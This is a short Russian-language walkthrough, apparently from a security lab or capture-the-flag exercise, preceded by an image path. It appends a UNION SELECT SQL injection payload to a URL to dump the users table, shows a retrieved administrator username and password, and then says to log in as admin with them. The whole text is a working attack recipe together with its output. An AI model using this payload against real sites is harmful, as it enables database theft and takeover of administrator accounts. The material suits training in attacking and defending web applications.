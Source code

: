 1)В конец адресной строки добавляем следующий код: 'UNION SELECT username, password FROM users--
2)Там получим доступ к базе данных пользователей. Среди них есть и администратор:
administrator c1j09krwj1pq6g6gfbns
3)Используем эти данные , чтобы войти на сайт от имени админа.
